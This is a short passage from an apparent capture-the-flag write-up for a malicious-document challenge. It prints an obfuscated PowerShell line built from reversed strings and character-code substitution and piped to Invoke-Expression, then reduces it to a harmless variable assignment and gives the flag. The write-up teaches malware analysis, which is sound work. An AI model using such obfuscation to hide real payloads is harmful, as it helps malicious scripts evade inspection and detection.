" ) )63]Rahc[,'raZ'EcalPeR-  43]Rahc[,)05]Rahc[+87]Rahc[+94]Rahc[(  eCAlpERc-  )';2'+'N'+'1'+'}atem_we'+'n_eht'+'_2N1 = n'+'gerr'+'aZ'(( ( )''niOj-'x'+]3,1[)(GNirTSot.EcNereFeRpEsOBREv$ ( . " 
) ;
-jOIn ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue[ - 1.. - ( ( lS ("VAR"+"IaB"+"LE:g"+"8H")  ).VALue.LengtH)] | IeX 
```

This statement boils down to this :

```powershell
$regn = "_the_new_meta}";
```

>Flag 2 : _the_new_meta

>**Flag :** _CHTB{maldocs_are_the_new_meta}_

